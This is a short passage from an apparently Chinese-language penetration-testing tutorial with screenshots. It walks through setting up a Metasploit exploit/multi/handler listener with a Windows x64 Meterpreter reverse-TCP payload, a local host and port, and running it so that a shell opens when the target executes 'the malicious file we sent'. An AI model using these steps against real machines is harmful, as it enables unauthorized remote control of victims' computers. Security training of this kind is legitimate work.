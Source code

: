 ![image-20230503182719960](assets/image-20230503182719960.png)

输入 `use exploit/multi/handler` 命令，使用 msf 的监听模块

输入` set payload windows/x64/meterpreter/reverse_tc`，设置监听模块的payload 类型为恶意文件的 payload。

![image-20230503182912463](assets/image-20230503182912463.png)

输入命令 set lhost 192.168.1.2、set lport 7777，设置监听模块的参数。

![image-20230503182951932](assets/image-20230503182951932.png)

输入 `run` 执行监听模块。此时如果目标运行了我们发送的恶意文件，我们即可获得shell。

![image-20230503183035190](assets/image-20230503183035190.png)
